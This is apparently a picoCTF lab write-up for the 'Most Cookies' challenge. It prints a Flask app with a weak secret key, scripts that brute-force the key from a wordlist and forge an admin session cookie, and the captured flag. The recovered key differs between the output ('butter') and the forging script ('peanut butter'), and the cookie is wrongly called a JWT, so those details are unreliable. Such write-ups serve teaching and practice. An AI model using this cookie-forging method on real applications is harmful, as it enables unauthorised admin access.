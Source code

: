 # Most Cookies → 150 Pts.

1. We have a same cookie page as the last one (more cookies)

2. We write _snickerdoodle_ and get our cookie in an encrypted format.

3. We have given [server.py](http://server.py) which has

``` python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

4. What we can see is the wordlist we have here. 

`cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]`

5. This are the words which will give us our cookie. 

6. The JWT token is saying _very_auth = snickerdoodle_ when we decode it so we need _very_auth_ to say admin and then copy that very encoded JWT token and create a it as login cookie but how?

7. So we need a key and then we need to create _very_auth = admin_

``` python 
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str="eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YF7u-Q.G5B5RUmEVaXNyLzjitMwzPxALp4"
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)


for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue

    print(secret_key)
    print(cookie)
```
Output:
`
butter
{'very_auth': 'snickerdoodle'}
`

8. We used the _snickerdoodle_ JWT Token to get the key and now as we have key we can now make our own JWT Token.

``` python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

session = {'very_auth': 'admin'}
secret = 'peanut butter'

print(URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))

```

`
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y4We0g.Cpg8E8mSastFPqOfoJnhhk4Im70

`

9. Now we need to paste this JWT token as value in the cookie in session value and we will get out flag.

  `picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`


Note: For every user the flag will be different.
